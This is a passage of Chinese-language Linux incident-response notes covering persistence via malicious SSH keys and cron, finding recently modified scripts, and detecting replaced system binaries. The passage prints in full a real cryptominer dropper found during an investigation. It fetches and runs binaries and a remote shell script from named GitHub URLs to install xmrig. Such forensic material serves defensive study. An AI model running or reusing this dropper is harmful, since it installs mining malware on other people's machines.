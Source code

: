 恶意sshkey文件，配合计划任务做权限维持

![image.png](https://cdn.nlark.com/yuque/0/2023/png/27875807/1674885563875-0f24d09a-a041-4e4c-8b8b-25a53eed5a27.png#averageHue=%2317181b&clientId=u8b88ba14-b50c-4&from=paste&height=225&id=uaccbd67f&name=image.png&originHeight=496&originWidth=999&originalType=binary&ratio=1&rotation=0&showTitle=false&size=185171&status=done&style=none&taskId=u6444c3c6-b542-49ec-800e-6e65a89c203&title=&width=454.0908992487539)

find
```
find / -ctime 0 -name "*.sh"  #-n指n天以内
```


<a name="mDGAW"></a>
### 2.6 其它
host 文件<br />`/etc/hosts`<br />find 命令<br />md5sum 命令<br />grep 命令<br />diff 命令<br />很多情况下，存在ps、netstat等一些常见命令被替换，可利用stat查看该状态，查看其修改时间<br />`stat /bin/netstat`<br />![](https://cdn.nlark.com/yuque/0/2022/png/27875807/1655040943889-0c3f27e9-eb75-4f3c-9398-7b5ee587d379.png#averageHue=%23323232&height=214&id=fbCsY&originHeight=214&originWidth=669&originalType=binary&ratio=1&rotation=0&showTitle=false&status=done&style=none&title=&width=669)



在找攻击链时，会找到类似这种脚本，这种脚本就是挖矿病毒下载的脚本
```bash
killall -9 dos64
killall -9 dos32
killall -9 dos24
killall -9 dos26
killall -9 tfq
killall -9 xmrig
rm -rf cd /tmp/dos64
rm -rf cd /tmp/dos32
rm -rf cd /tmp/dos24
rm -rf cd /tmp/dos26
rm -rf cd /tmp/tfq
if [ ! -w "/tmp/dos64" ]; then
cd /tmp;wget https://ghproxy.com/https://raw.githubusercontent.com/Tremblae/Tremble/main/dos64;chmod 777 dos64;./dos64
fi

if [ ! -w "/tmp/dos32" ]; then
cd /tmp;wget https://ghproxy.com/https://raw.githubusercontent.com/Tremblae/Tremble/main/dos32;chmod 777 dos32;./dos32
fi

if [ ! -w "/tmp/dos24" ]; then
cd /tmp;wget https://ghproxy.com/https://raw.githubusercontent.com/Tremblae/Tremble/main/dos24;chmod 777 dos24;./dos24
fi

if [ ! -w "/tmp/dos26" ]; then
cd /tmp;wget https://ghproxy.com/https://raw.githubusercontent.com/Tremblae/Tremble/main/dos26;chmod 777 dos26;./dos26
fi

if [ ! -w "/tmp/tfq" ]; then
cd /tmp;wget https://ghproxy.com/https://raw.githubusercontent.com/Tremblae/Tremble/main/tfq;chmod 777 tfq;./tfq
fi

if [ ! -w "/root/c3pool/xmrig" ]; then
curl -s -L https://ghproxy.com/https://raw.githubusercontent.com/Tremblae/Tremble/main/ba.sh | bash -s
fi
rm -rf cd /tmp/dos64
rm -rf cd /tmp/dos32
rm -rf cd /tmp/dos24
rm -rf cd /tmp/dos26
```